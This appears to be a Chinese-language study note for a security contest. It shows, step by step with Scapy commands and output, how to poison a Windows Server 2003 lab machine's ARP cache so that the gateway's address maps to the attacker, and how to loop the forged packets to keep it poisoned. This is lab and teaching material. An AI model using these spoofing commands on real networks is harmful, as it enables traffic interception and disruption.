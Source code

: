 ### 使用Scapy对ARP协议缺陷进行利用



本篇笔记是对省赛的笔记[scapy.md](<https://github.com/leaf-lxh/note/blob/master/%E7%9C%81%E8%B5%9B/%E7%9F%A5%E8%AF%86%E5%82%A8%E5%A4%87/scapy.md>)的补充说明，另外针对国赛使用的环境，使用python3



#### 安装

```
$ sudo python3 -m pip install scapy
```

#### 场景

| 角色                      | 网卡接口 | IP地址         | 硬件地址          | 网关地址      |
| ------------------------- | -------- | -------------- | ----------------- | ------------- |
| 攻击机-Ubuntu18.04        | ens33    | 192.168.247.24 | 00:0c:29:a7:3b:4d | 无            |
| 靶机A-Windows Server 2003 | 本地连接 | 192.168.247.16 | 00:0C:29:4A:25:26 | 192.168.247.2 |
| 局域网网关                | 无       | 192.168.247.2  | 00:50:56:fe:55:fe | 无            |


#### 手工利用
```python
#创建raw_socket需要root权限
$ sudo scapy
#设定使用的网络接口
>>> conf.iface="ens33"

=============================================================================
#目的：查询靶机A的硬件地址
#使用sr1函数，发送一个数据包，接收一个数据包
#使用ARP类构造ARP数据包，操作码op指定为1或"who-has"，目标IP地址pdst指定为靶机IP地址
#其他的选项会自动根据环境填充：本机ip地址，本机硬件地址
#sr1函数返回靶机响应的ARP数据包，数据包中的hwsrc为靶机的硬件地址
>>> sr1(ARP(op=1, pdst="192.168.247.16")).hwsrc
Begin emission:
*Finished sending 1 packets.

Received 1 packets, got 1 answers, remaining 0 packets
'00:0c:29:4a:25:26'

=============================================================================
#目的：查询当前使用的网卡的硬件地址
>>> ARP().hwsrc
'00:0c:29:a7:3b:4d'

=============================================================================
#目的：告知靶机A，网关的硬件地址为攻击机的硬件地址
#使用send函数，发送数据包，不接收返回数据包
#使用ARP类构造ARP数据包，操作码op指定为2，指定源IP地址为网关地址，指定目标IP地址为靶机
#其他的选项会根据环境进行自动填充：本机硬件地址
>>> send(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
.
Sent 1 packets.

=============================================================================
#目的：基于上题的目的，改为循环发送ARP数据包，保持靶机被毒化状态
#使用srloop函数循环发送数据包
#由于主机接收到ARP响应报文后不会回应，所以这个函数接收不到数据包，所以会是fail
#实验时发现win server 2003接收到arp响应报文后，只有当arp表中有相应的IP项，才会根据报文进行更新
#如果没有对应的IP项，不会根据响应报文创建IP-MAC映射关系
>>> srloop(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2

#如果指定op=1，win server 2003会自动根据请求报文的源ip:源mac信息来创建/更新arp表项
srloop(ARP(op=1, psrc="192.168.247.16", pdst="192.168.247.19"))
RECV 1: ARP is at 00:0c:29:92:f5:ac says 192.168.247.19 / Padding

RECV 1: ARP is at 00:0c:29:92:f5:ac says 192.168.247.19 / Padding
RECV 1: ARP is at 00:0c:29:92:f5:ac says 192.168.247.19 / Padding
RECV 1: ARP is at 00:0c:29:92:f5:ac says 192.168.247.19 / Padding
RECV 1: ARP is at 00:0c:29:92:f5:ac says 192.168.247.19 / Padding


```

